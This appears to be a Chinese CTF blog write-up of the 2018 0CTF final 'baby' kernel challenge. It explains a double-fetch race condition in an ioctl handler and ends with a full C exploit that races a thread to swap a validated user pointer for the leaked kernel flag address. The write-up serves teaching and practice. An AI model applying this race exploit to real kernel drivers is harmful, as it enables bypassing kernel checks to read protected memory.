 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "2018-0CTF-final baby 复现(race condition & double fetch)"
author: wsxk
date: 2022-11-2
comments: true
---
```


- [题目分析](#题目分析)
- [攻击思路 double fetch](#攻击思路-double-fetch)
- [exp](#exp)
- [references](#references)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

## 题目分析<br>
首先查看一下启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141735.png)
我们可以惊奇地发现，什么保护都没开（好耶！)<br>
再看看那个驱动的保护：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141856.png)
发现也什么都没开。<br>
接下来分析一下代码：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102142025.png)<br>
ioctl函数提供了2个接口:<br>
一个是0x6666，它将会打印出flag的地址（内核）<br>
另一个是0x1337，这个功能首先`check`用户的输入（input_addr)是否合法。<br>
其中需要重点理解的有`_chk_range_not_ok`函数:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102143130.png)
这个函数首先将`第一个参数和第二个参数相加，判断是否发送进位（CF）`，再判断`第一个参数和第二个参数相加是否大于第三个参数`<br>
**2个条件必须同时满足才能通过检测**<br>
这里的第三个参数`*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 4952)`看起来很复杂，仔细看，首先是`__readgsqword((unsigned int)&current_task)`,从函数名称可以看出这是读取以gs寄存器为基址索引的8个字节，偏移为`(unsigned int)&current_task`，其实就是读取了current_task在内核中的地址，然后以8字节为单位找到偏移为`4952`的值<br>
这里值得一提的是，我们还是不知道这个值是多少，需要调试去看一下。<br>
***注意，要想调试需要root权限，需要在init脚本里把 1000 改成 0，然后在启动脚本（start.sh)里添加-s选项***<br>
这里一般情况是没办法调试的
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150043.png)
因为不知为何，地址变成了奇奇怪怪的东西（，这就说明 使用 add-symbol-file添加符号不可行。<br>
因此需要用root权限来 `lsmod` 
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150144.png)
可以看到真正的驱动基地址。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150212.png)
顺道一提，我惊奇的发现，基地址刚刚好就是check函数的地址，哈哈，也不用算偏移了。<br>
调试后发现，该值是 `0x7ffffffff000`
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150258.png)
刚刚好是栈底(<br>
从这个题目中，没有栈/堆的问题，似乎只是要我们猜flag<br>

## 攻击思路 double fetch<br>
我们可以利用 竞态条件（race condition）来绕过检测。<br>
`double fetch` 就是其中的一种。<br>
`double fetch`发送在以下条件：<br>
> 1. 用户往内核传送数据是以指针方式传送（意味着用户可以修改其所指向的内容）
> 2. 内核需要多次使用该指针来取值。

**double fetch直译就是取值2次**<br>
这次题目就满足了上述2个条件。<br>
double fetch正常情况图:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/QQ%E5%9B%BE%E7%89%8720221102152018.jpg)<br>
attack后:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/IMG_20221102_152239.jpg)<br>
说白了，`就是在一开始输入时，输入的参数是符合规范的`，在越过检测后，`修改参数为恶意地址`<br>
说的容易，其实我们没办法准确定位到第一次fetch和第二次fetch的时间，因此通常都采用爆破的手段。<br>

## exp<br>
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

struct request{
    size_t addr;
    size_t length;
};
pthread_t compete;
struct request input;
size_t flag_addr;
size_t competition_times = 0x100;
char flag[0x100];
int result_fd;
int success=0;

void * race_thread(void){
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=flag_addr;
        }
    }
}

int main(){
    int fd = open("/dev/baby",O_RDWR);
    if(fd<0){
        printf("error in open /dev/baby!\n");
    }
    
    //get flag addr
    ioctl(fd,0x6666,&input);
    system("dmesg | grep flag > 1.txt");
    int file_fd = open("/1.txt",O_RDONLY);
    char buf[0x100];
    read(file_fd,buf,0x100);
    char * flag_start = strstr(buf,"Your flag is at ")+strlen("Your flag is at ");
    char * flag_end = flag_start + 16;
    flag_addr = strtoull(flag_start,flag_end,16);
    printf("flag_addr:%p\n",flag_addr);
    
    //init input
    input.addr = buf;
    input.length = 33;

    //create thread
    pthread_create(&compete,NULL,race_thread,NULL);

    //start race condition!
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=buf;
            input.length=33;
            ioctl(fd,0x1337,&input);
            system("dmesg | grep flag > result.txt");
            result_fd = open("/result.txt",O_RDONLY);
            read(result_fd,flag,0x100);
            if(strstr(flag,"Looks like the flag is not a secret anymore.")){
                printf("get flag!\n");
                success=1;
                break;
            }
        }
    }

    // close thread
    pthread_cancel(compete);
    
}
```

## references<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One)<br>